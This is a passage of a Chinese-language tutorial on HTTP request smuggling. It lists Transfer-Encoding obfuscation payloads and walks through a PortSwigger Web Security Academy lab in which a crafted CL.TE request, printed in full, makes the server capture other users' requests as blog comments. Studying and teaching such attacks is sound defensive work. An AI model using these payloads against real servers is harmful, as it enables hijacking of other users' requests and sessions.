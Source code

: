 多次发送后：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-c5e8cb41e285f53cc0eaf6ceb992fc43ba6a9f60.png)  
可以看到这里我们采用了：

```php
Transfer-Encoding:chunked\r\n
Transfer-Encoding:cow\r\n
```

除了这种混淆方式，除了这些portswigger团队还给出了其它可用于TE混淆的payload：

> Transfer-Encoding: xchunked  
> Transfer-Encoding\[空格\]: chunked  
> Transfer-Encoding: chunked  
> Transfer-Encoding: x  
> Transfer-Encoding:\[tab\]chunked  
> \[空格\]Transfer-Encoding: chunked  
> X: X\[\\n\]Transfer-Encoding: chunked  
> Transfer-Encoding  
> : chunked

0x04 走私攻击应用实例
=============

1.使用CL TE走私获取其他用户的请求
--------------------

lab：<https://ac991f4d1ef4a5e7c0bd1cc8006c0014.web-security-academy.net/>

打开页面是blog，用户可以在页面发表评论，由于前后端服务器的请求头处理差异导致我们可以利用CL TE获取其它用户的请求头，譬如我们构造出如下请求：

```php
POST / HTTP/1.1
Host: ac991f4d1ef4a5e7c0bd1cc8006c0014.web-security-academy.net
Cookie: session=plmft6w5VTTDEI0J15a06sNdaQUcPNPO
Content-Length: 333
Transfer-Encoding:chunked
Content-Type: application/x-www-form-urlencoded

0

POST /post/comment HTTP/1.1
Host: ac991f4d1ef4a5e7c0bd1cc8006c0014.web-security-academy.net
Cookie: session=plmft6w5VTTDEI0J15a06sNdaQUcPNPO
Content-Length: 700
Content-Type: application/x-www-form-urlencoded

csrf=vMqN9Cq1aip2DYMTyFEokIA5IkONc7oM&postId=6&name=a&email=1%40qq.com&website=http%3A%2F%2F1.com&comment=spring
```

前端服务器使用CL验证，获取CL为333后判定这是一个正常的请求并发送给后端，而后端服务器通过TE的结尾表标识`0\r\n\r\n`认为前半部分是一个正常的请求，而后半部分：

```php
POST /post/comment HTTP/1.1
Host: ac991f4d1ef4a5e7c0bd1cc8006c0014.web-security-academy.net
Cookie: session=plmft6w5VTTDEI0J15a06sNdaQUcPNPO
Content-Length: 700
Content-Type: application/x-www-form-urlencoded

csrf=vMqN9Cq1aip2DYMTyFEokIA5IkONc7oM&postId=6&name=a&email=1%40qq.com&website=http%3A%2F%2F1.com&comment=spring
```
